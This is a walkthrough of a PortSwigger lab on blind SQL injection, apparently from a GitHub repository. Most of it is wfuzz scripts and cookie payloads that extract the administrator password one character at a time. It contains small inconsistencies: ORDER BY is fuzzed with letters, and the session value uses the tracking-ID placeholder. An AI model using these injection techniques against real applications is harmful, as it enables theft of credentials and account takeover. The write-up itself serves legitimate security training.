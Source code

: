 # Blind SQL injection with conditional responses

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

![Lab Description](img/lab-description.png)

## Objective

The lab description states that the application uses a tracking cookie for analytics and performs an SQL operation containing the value of the submitted cookie. The application includes a Welcome back message on the page if the query returns any rows.

To solve the lab, we have to log in as `administrator`.

## Analysis

**First, we need to determine how many columns the query returns.**

Use the below payload

```bash
echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt
```

```bash
#!/bin/bash

wfuzz -X GET \
    -u "https://YOUR-LAB-ID.web-security-academy.net/" \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'+ORDER+BY+FUZZ--; session=YOUR-SESSION-KEY" \
    -w chars.txt \
    --ss 'Welcome back!'
```

Now that we have determined how many columns the query returns, let's try to access the `users` table in the database by placing the below payload on the cookie value. Hmm, we the `Welcome back!` Text is reflected in response which means our payload works.

```bash
'+UNION+SELECT+NULL+FROM+users--
```

![Accessing User Table](img/accessing-users-table.png)

## Solution

The lab description states that the table users have `username` and `password` columns. We can craft a payload to retrieve the `administrator` user password character by character.

**But first, let's determine the password length.**

```bash
#!/bin/bash

echo {0..30} | tr ' ' '\n' > range.txt

wfuzz -X GET \
      -u "https://YOUR-LAB-ID.web-security-academy.net/" \
      -H "Cookie: TrackingId='+UNION+SELECT+NULL+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)=FUZZ--; session=YOUR-TRACKING-ID" \
      -w range.txt \
      --ss 'Welcome back!'
```

```bash
#!/bin/bash

for c in {1..30}; do
    wfuzz -X GET \
        -u "https://YOUR-LAB-ID.web-security-academy.net/" \
        -H "Cookie: TrackingId='+UNION+SELECT+NULL+FROM+users+WHERE+username='administrator'+AND+SUBSTRING(password,$c,1)='FUZZ'--; session=YOUR-TRACKING-ID" \
        -w chars.txt \
        --ss 'Welcome back!'
done
```

After retrieving the password, log in as an `administrator` to solve the lab.

![Lab Solved](img/lab-solved.png)
